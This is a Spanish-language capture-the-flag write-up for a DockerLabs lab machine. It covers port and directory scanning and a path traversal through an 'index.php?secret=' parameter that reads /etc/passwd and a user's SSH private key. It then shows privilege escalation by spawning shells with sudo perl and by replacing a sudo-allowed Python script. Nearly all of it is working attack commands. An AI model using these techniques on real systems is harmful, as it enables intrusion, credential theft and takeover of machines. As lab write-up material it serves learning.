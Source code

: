 # Write-up - Path Traversal y Escalada con Python

**Sitio:** DockerLabs  
**Dificultad:** Fácil  
**Fecha:** 13/06/2025  
**Aprendizaje:**  
- Reforzar el uso de `ffuf` y ataques de Path Traversal.  
- Prestar atención a detalles en páginas web para obtener pistas.  
- Búsqueda y utilización de claves SSH.  
- Uso de `chmod` y escaladas mediante `python`.  
- Creación y modificación de scripts para escalar privilegios.

---

## Enumeración y acceso inicial

### 1. Escaneo de puertos

`sudo nmap -sSV -O --open 172.17.0.2`

> Resultado:

21/tcp open ftp `vsftpd 3.0.5`  
22/tcp open ssh `OpenSSH 9.6p1 Ubuntu`  
80/tcp open http `Apache 2.4.58`  
OS detectado: `Linux`  

### 2. Enumeración de directorios

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/rockyou.txt -x php,html,txt -q -b 404,403`

> Rutas encontradas:

* `/assets` con un `background.jpg` sin contenido oculto útil.

### 3. Fuzzing + Path Traversal con ffuf

`ffuf -u http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd -w /usr/share/wordlists/dirb/common.txt -fc 200`

> Parámetro encontrado: `secret`  
> Prueba exitosa:  

`http://172.17.0.2/index.php?secret=../../../../../etc/passwd`  

> Resultado:  

`/root:/root:/bin/bash`  
`/home/luisillo:/bin/sh`  
`/home/vaxei:/bin/bash`  

## Obtención y uso de clave SSH  

### 4. Acceso a clave privada SSH de vaxei  

`http://172.17.0.2/index.php?secret=../../../../../home/vaxei/.ssh/id_rsa`  

> Se copia y guarda como `vaxei_clave_ssh`  

### 5. Asignación de permisos correctos  

`chmod u+rw,g-rw,o-rw vaxei_clave_ssh`  

### 6. Acceso vía SSH  

`ssh -l vaxei -i vaxei_clave_ssh 172.17.0.2`  

> Acceso concedido como `vaxei`  

## Escalada de privilegios  

### 7. Revisión de sudo como vaxei  

`sudo -l`  

> Resultado:  
> `(luisillo) NOPASSWD: /usr/bin/perl`  

### 8. Cambio a usuario luisillo  

`sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'`  

> Shell como `luisillo` (usuario común)  

### 9. Escalada total con setuid()  

`sudo -u luisillo /usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'`  

> Acceso root conseguido  

### 10. Revisión final de sudo  

`sudo -l`  

> Resultado:   
> `(ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py`  

### 11. Sustitución del script en /opt  

cd /opt  
rm -rf paw.py  

cat << EOF > paw.py  
#!/usr/bin/env python3  
import subprocess  
subprocess.run(["/bin/bash"])  
EOF  

### 12. Ejecución final  

`sudo /usr/bin/python3 /opt/paw.py`  

> `whoami = root`
